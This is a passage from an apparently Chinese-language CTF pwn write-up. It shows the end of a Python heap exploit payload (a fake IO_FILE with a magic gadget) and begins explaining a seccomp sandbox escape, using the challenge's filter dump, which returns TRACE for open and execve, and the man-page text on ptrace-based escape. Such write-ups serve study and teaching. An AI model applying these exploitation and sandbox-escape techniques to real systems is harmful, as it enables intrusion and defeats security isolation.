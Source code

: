 ```python
                0xE0: [fake_IO_FILE + 0x200],
            },
            # 0x200 - 0x10: {0x68: [0xDEADBEEF]},
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)
```

### 父进程 ptrace 子进程绕沙箱

接下来就是绕 sandbox 了，这里比较新颖地采用了 `TRACE` 而非 `KILL`，使得古早沙箱绕过方式重现于比赛中：

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0009
 0005: 0x15 0x03 0x00 0x00000101  if (A == openat) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x7ff00000  return TRACE
```

与常见的 KILL 不同，TRACE 模式不会直接终止程序，可以参考文档：

- [linux/man-pages/man2/seccomp.2](https://man7.org/linux/man-pages/man2/seccomp.2.html)

```
SECCOMP_RET_TRACE
  When returned, this value will cause the kernel to attempt
  to notify a ptrace(2)-based tracer prior to executing the
  system call.  If there is no tracer present, the system
  call is not executed and returns a failure status with
  errno set to ENOSYS.

  A tracer will be notified if it requests
  PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).
  The tracer will be notified of a PTRACE_EVENT_SECCOMP and
  the SECCOMP_RET_DATA portion of the filter's return value
  will be available to the tracer via PTRACE_GETEVENTMSG.

  The tracer can skip the system call by changing the system
  call number to -1.  Alternatively, the tracer can change
  the system call requested by changing the system call to a
  valid system call number.  If the tracer asks to skip the
  system call, then the system call will appear to return
  the value that the tracer puts in the return value
  register.

  Before Linux 4.8, the seccomp check will not be run again
  after the tracer is notified.  (This means that, on older
  kernels, seccomp-based sandboxes must not allow use of
  ptrace(2)—even of other sandboxed processes—without
  extreme care; ptracers can use this mechanism to escape
  from the seccomp sandbox.)

  Note that a tracer process will not be notified if another
  filter returns an action value with a precedence greater
  than SECCOMP_RET_TRACE.
```